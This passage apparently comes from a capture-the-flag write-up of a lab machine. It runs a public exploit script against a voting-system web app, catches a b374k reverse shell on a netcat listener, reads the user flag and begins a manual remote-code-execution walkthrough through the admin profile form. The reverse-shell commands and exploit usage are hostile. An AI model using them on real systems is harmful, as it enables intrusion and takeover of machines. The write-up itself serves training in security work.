 I’ll remove `/votingsystem` from each and save the script.

#### Success

With `nc` still listening on TCP 443 (with `rlwrap` to make the Windows shell better), I’ll run the updated script:

```

oxdf@parrot$ python 49445.py 
Start a NC listener on the port you choose above and run...
Logged in
Poc sent successfully

```

It hangs there, but then there’s a connection to `nc` with a shell:

```

oxdf@parrot$ rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 56061
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
love\phoebe

```

And I can grab the first flag from the user’s desktop:

```

C:\Users\Phoebe\Desktop>type user.txt
69e87892************************

```

### RCE Manually

Once logged in, there’s not a ton to see:

![image-20210721150016714](https://0xdfimages.gitlab.io/img/image-20210721150016714.png)

Clicking around the panels didn’t lead to anything interesting. However, clicking on the logged in user’s name, Neovic Devierte, there’s an option to update:

![image-20210721151055335](https://0xdfimages.gitlab.io/img/image-20210721151055335.png)

Clicking that brings up a form to update the admin profile:

![image-20210721151126213](https://0xdfimages.gitlab.io/img/image-20210721151126213.png)
